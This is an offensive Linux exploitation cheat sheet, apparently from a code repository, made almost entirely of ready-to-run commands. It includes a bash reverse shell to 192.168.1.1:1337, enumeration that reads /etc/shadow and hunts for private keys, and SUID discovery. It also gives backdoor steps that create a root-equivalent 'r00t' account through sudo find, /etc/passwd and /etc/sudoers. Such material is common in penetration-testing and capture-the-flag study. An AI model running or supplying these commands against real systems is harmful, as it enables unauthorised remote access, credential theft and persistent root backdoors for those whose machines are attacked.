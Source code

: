 # Linux Exploitation

## === Upgrading Shells ===

```bash
# python
python -c 'import pty; pty.spawn("/bin/bash")'
# echo
echo os.system('/bin/bash')
# bash
/bin/bash -i 
# environment variables
SHELL=/bin/bash script -q /dev/null
```

## === Reverse Shells ===

```bash
# bash
/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.1/1337 0>&1'
```

## === Enumeration Commands ===

### Basic Commands
```bash
id
hostname
# check sudo privileges
sudo -l 
# users on system
cat /etc/passwd 
# try for password hashes
cat /etc/shadow
# find
find / -iname "*file*" -print 2>/dev/null
# grep
grep -iR "pattern" . 2>/dev/null
```

### Versions
```bash
# system distribution (os)
lsb_release -a 
cat /etc/issue
# kernal information
uname -a 
cat /proc/version 
```

### Network
```bash
# netstat
netstat -tulip
# ps
ps aux
ps aux | grep root
```

### Searching
(common world writable folders: /dev/shm/, /tmp/, /var/www/)
```bash
# check webpage
ls -lisa /var/www/html
# check config files
ls -lisa /etc/ | grep .conf
# find all suid programs
find /* -user root -perm -4000 -print 2>/dev/null 
# world writable directories
find / -writable -type d 2>/dev/null
find / \( -wholename '/home/homedir*' -prune \) -o \( -type d -perm -0002 \) -exec ls -ld '{}' ';' 2>/dev/null | grep -v root
# world writable files
find / -perm -2 -type f 2>/dev/null | grep -v "/proc*" 
find / \( -wholename '/home/homedir/*' -prune -o -wholename '/proc/*' -prune \) -o \( -type f -perm -0002 \) -exec ls -l '{}' ';' 2>/dev/null 
# search for private keys
find / -xdev -type f -print0 | xargs -0 grep -H "BEGIN RSA PRIVATE KEY"
```

## === SUID Exploits ===

### Working with SUID
```bash
# adds suid bit
chmod u+s /bin/executable
# changes path variable
export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin 
```

### Find
```bash
echo "r00t:password" > /tmp/newpass.txt
sudo find . -name "." -exec useradd r00t -ou 0 -g root -s /bin/bash \;
sudo find . -name "." -exec chpasswd < /tmp/newpass.txt \;
```

## === Changing Writable Files to Pwn ===

```bash
# passwd
echo r00t::0:0:r00t:/root:/bin/bash >> /etc/passwd
# sudoers
echo "r00t ALL=(ALL:ALL) NOPASSWD: ALL" >> /etc/sudoers
```